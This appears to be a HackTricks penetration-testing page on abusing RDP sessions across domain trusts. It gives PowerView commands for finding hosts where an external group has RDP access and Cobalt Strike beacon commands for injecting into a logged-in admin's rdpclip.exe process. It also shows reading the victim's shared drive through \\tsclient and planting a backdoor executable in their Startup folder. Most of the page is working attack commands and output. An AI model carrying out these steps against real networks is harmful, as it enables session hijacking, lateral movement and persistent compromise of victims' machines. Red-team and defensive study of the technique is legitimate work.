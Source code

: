 # RDP Sessions Abuse

{{#include ../../banners/hacktricks-training.md}}

## RDP Process Injection

If the **external group** has **RDP access** to any **computer** in the current domain, an **attacker** could **compromise that computer and wait for him**.

Once that user has accessed via RDP, the **attacker can pivot to that users session** and abuse its permissions in the external domain.

```powershell
# Supposing the group "External Users" has RDP access in the current domain
## lets find where they could access
## The easiest way would be with bloodhound, but you could also run:
Get-DomainGPOUserLocalGroupMapping -Identity "External Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
#or
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName

# Then, compromise the listed machines, and wait til someone from the external domain logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 ...
 4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local
## From that beacon you can just run powerview modules interacting with the external domain as that user
```

Check **other ways to steal sessions with other tools** [**in this page.**](../../network-services-pentesting/pentesting-rdp.md#session-stealing)

## RDPInception

If a user access via **RDP into a machine** where an **attacker** is **waiting** for him, the attacker will be able to **inject a beacon in the RDP session of the user** and if the **victim mounted his drive** when accessing via RDP, the **attacker could access it**.

In this case you could just **compromise** the **victims** **original computer** by writing a **backdoor** in the **statup folder**.

```powershell
# Wait til someone logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 ...
 4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local

# There's a UNC path called tsclient which has a mount point for every drive that is being shared over RDP.
## \\tsclient\c is the C: drive on the origin machine of the RDP session
beacon> ls \\tsclient\c

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     02/20/2021 10:15:23   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          [...]

# Upload backdoor to startup folder
beacon> cd \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
```

{{#include ../../banners/hacktricks-training.md}}



